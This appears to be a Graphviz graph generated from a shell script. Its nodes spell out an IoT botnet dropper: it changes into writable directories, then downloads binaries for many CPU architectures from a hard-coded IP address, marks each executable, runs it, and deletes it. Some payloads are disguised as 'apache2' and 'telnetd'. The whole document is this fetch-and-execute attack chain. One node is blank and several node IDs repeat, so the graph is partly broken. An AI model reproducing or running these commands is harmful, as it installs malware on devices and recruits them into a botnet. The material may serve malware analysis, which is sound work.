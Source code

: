 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://23.95.43.182/hohomips "];
10 -> 12 [label=";,"];
12 [label="chmod +x hohomips "];
12 -> 14 [label=";,"];
14 [label="./hohomips "];
14 -> 16 [label=";,"];
16 [label="rm -rf hohomips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://23.95.43.182/hohomipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x hohomipsel "];
30 -> 32 [label=";,"];
32 [label="./hohomipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf hohomipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://23.95.43.182/hohosh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x hohosh4 "];
48 -> 50 [label=";,"];
50 [label="./hohosh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf hohosh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://23.95.43.182/hohox86 "];
64 -> 66 [label=";,"];
66 [label="chmod +x hohox86 "];
66 -> 68 [label=";,"];
68 [label="./hohox86 "];
68 -> 70 [label=";,"];
70 [label="rm -rf hohox86 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://23.95.43.182/hohoarm6 "];
82 -> 84 [label=";,"];
84 [label="chmod +x hohoarm6 "];
84 -> 86 [label=";,"];
86 [label="./hohoarm6 "];
86 -> 88 [label=";,"];
88 [label="rm -rf hohoarm6 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://23.95.43.182/hoho686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x hoho686 "];
102 -> 104 [label=";,"];
104 [label="./hoho686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf hoho686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://23.95.43.182/hohoppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x hohoppc "];
120 -> 122 [label=";,"];
122 [label="./hohoppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf hohoppc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://23.95.43.182/hoho586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x hoho586 "];
138 -> 140 [label=";,"];
140 [label="./hoho586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf hoho586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://23.95.43.182/hohom68k "];
154 -> 156 [label=";,"];
156 [label="chmod +x hohom68k "];
156 -> 158 [label=";,"];
158 [label="./hohom68k "];
158 -> 160 [label=";,"];
160 [label="rm -rf hohom68k "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://23.95.43.182/hohosh "];
172 -> 174 [label=";,"];
174 [label="chmod +x hohosh "];
174 -> 176 [label=";,"];
176 [label="./hohosh "];
176 -> 178 [label=";,"];
178 [label="rm -rf hohosh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://23.95.43.182/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://23.95.43.182/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://23.95.43.182/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}

